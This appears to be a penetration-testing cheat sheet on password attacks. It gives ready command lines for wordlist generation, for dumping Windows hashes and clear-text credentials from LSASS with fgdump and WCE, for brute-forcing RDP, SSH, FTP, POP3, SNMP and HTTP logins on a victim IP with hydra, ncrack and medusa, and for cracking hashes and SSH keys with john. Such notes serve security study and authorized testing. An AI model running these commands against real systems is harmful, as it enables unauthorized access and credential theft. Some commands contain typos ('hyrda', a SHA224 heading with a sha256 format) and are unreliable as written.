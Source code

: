 - [Password_generator](#Password_generator)
  - [Crunch](#Crunch)
- [Windows](#Windows)
  - [pwdump](#pwdump)
  - [WCE](#WCE)
- [Password_cracking](#Cracking)
  - [HTTP](#HTTP)
  - [RDP](#RDP)
  - [SNMP](#SNMP)
  - [SSH](#SSH)
  - [FTP](#FTP)
  - [POP3](#POP3)
- [Password Hash](#Hash)
  - [Hash_identifier](#Hash_identifier)
  - [MD5](#MD5)
  - [SHA1](#SHA1)
  - [SHA256](#SHA256)
  - [SHA512](#SHA512)
- [Pass the hash](#Pass_the_hash)
- [SSH key cracking](#SSH_key_cracking)
  - [Cracking encrypted private key](#Cracking_encrypted_private_key)
    - [ssh2john](#ssh2john)
    - [john ](#john)
    - [tools](#tools)
 
## Password generato

### Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows  

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Cracking

#### HTTP
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP B
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP 
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH 
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP 
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Hash 

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA224
- john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
------------------------------------------------------------------------------------------------------------------------

# SSH_Key_cracking

## Cracking_encrypted_private_key

### ssh2john
```
ssh2john.py encrypted_private_key > private_key.john
```
### john
```
john private_key.john --wordlist=/usr/share/wordlists/rockyou.txt
```

### tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
